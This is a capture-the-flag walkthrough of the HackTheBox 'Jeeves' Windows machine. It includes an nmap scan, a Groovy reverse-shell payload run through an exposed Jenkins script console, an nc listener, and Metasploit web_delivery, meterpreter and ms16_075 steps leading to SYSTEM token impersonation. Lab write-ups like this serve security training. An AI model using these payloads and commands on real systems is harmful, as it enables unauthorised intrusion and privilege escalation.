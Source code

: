 # Hackthebox - Jeeves - Windows

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -A -p- 10.10.10.63                                                                                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 13:34 EDT
Nmap scan report for 10.10.10.63
Host is up (0.025s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|10|7|Vista (88%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_10:1607 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (88%), Microsoft Windows 10 1607 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (85%), Microsoft Windows 7 (85%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%), Microsoft Windows 10 1511 - 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-08T22:44:11
|_  start_date: 2022-04-08T22:41:38
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 5h07m23s, deviation: 0s, median: 5h07m23s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   24.57 ms 10.10.14.1
2   24.81 ms 10.10.10.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 161.40 seconds
```

## Port 80

- We have this page
![image](https://user-images.githubusercontent.com/96747355/162480794-234ea1a6-2011-4711-8a9f-314e2c507d5b.png)  
- It seems gives stack trace when trying to search for something 
![image](https://user-images.githubusercontent.com/96747355/162480895-aa19e42f-fb54-4856-8ad7-466d12a88bc0.png)  
- But it is just an image, indeed the action of the form will just go to error.html
![image](https://user-images.githubusercontent.com/96747355/162491383-cb18df99-b49a-4756-90e3-799604a31d7f.png)  
- Gobuster does not give much

## Port 50000

- Here is what we see on the browser for this port:  
![image](https://user-images.githubusercontent.com/96747355/162493795-4fe4f32f-faab-4c7d-99ad-1f9b0a412953.png)  
- Gosbuster does not always work for the first time we need to use different wordlists, I tried a few before getting to the askjeeves result.
The one that gave the result is `directory-list-2.3-big.txt`
![image](https://user-images.githubusercontent.com/96747355/162494821-57bd90c5-9d26-48f7-939a-870263ae7143.png)  
- If we navigate to /askjeeves we have a jenkins server
![image](https://user-images.githubusercontent.com/96747355/162495024-ec8fd547-0209-4636-884a-b1875a8dd578.png)  
- If we go to jenkins cli we can use a jar and execute command from it
![image](https://user-images.githubusercontent.com/96747355/162495714-82ed035e-60cf-4625-8789-efcb4a866a31.png)  
- If we look at the system info we get a user name: `kohsuke`
- Script console also seems interesting, let's try to get a reverse shell this way
![image](https://user-images.githubusercontent.com/96747355/162497679-2689b9d3-30b4-4893-bde5-f37e39037565.png)  
We can find one online [here](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76):
```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
- Let's set a listener `rlwrap nc -lvp 8044`
- It works we are `jeeves\kohsuke`

![image](https://user-images.githubusercontent.com/96747355/162498078-6e956d86-11e2-4777-90b0-ce01df2862a4.png)  
- We can grab our user flag `type C:\Users\kohsuke\Desktop\user.txt`
- Here are our privileges
![image](https://user-images.githubusercontent.com/96747355/162498730-ef2fc0c3-4e26-4ab7-9ddc-852a8d86f9df.png)  
We have the `SeImpersonatePrivilege` enabled
- We can use [windows exploit suggester](https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py) with sysinfo
  - `wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py`
  - `python windows-exploit-suggester.py -update` (to get the latest db file)
  - `python windows-exploit-suggester.py --database 2022-04-08-mssb.xls -i ../sysinfo.txt`
- We have a lot of options including potatoes

## Privesc with rotten potato

- Launch msfconsole
- `use exploit/multi/script/web_delivery`
- `show targets`
- `set target 2` for PSH
- `set payload windows/meterpreter/reverse_tcp`
- `set lhost tun0`
- `set SRVHOST tun0`
![image](https://user-images.githubusercontent.com/96747355/162503009-09193505-df80-40bc-a82d-ecfb66ab7e0f.png)  
- Now we just need to execute this in our target
![image](https://user-images.githubusercontent.com/96747355/162503184-48f16a14-1aa9-47e1-bf00-58fb2009657f.png)  
- And we get a meterpreter session
![image](https://user-images.githubusercontent.com/96747355/162503310-814f334c-1d69-4d5d-80c4-a9d94c3675c0.png)  
- Let's interact with it `sessions -i 1`
- To get the build in potato options lets use metasploit exploit suggester `run post/multi/recon/local_exploit_suggester`
![image](https://user-images.githubusercontent.com/96747355/162503846-dd872c5a-8441-4438-878d-6aacc4ffd8a7.png)  
- Using ctrl+z lets now background the shell
- `use exploit/windows/local/ms16_075_reflection_juicy`
- `show options`
- `set session 1`
- `set LHOST tun0`
- `run`
![image](https://user-images.githubusercontent.com/96747355/162506387-94421e6a-131a-49cf-a480-bd059561f668.png)  
- And it worked
![image](https://user-images.githubusercontent.com/96747355/162506825-ffece6c6-6452-4fb5-91a3-980250db8dfd.png)  
- `load incognito`
- `list_tokens -u`
- `impersonate_token "NT AUTHORITY\SYSTEM"`
- Event though we got authority system the root flag is not here instead we have this
![image](https://user-images.githubusercontent.com/96747355/162508399-2b49e318-02e9-4a1f-b127-2a54e6b320ca.png)  
- if we `dir /R` we can see our flag
- `more < hm.txt:root.txt:$DATA` we can do this to print it
- [Here](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/) are a few methods on how to print alternate data streams

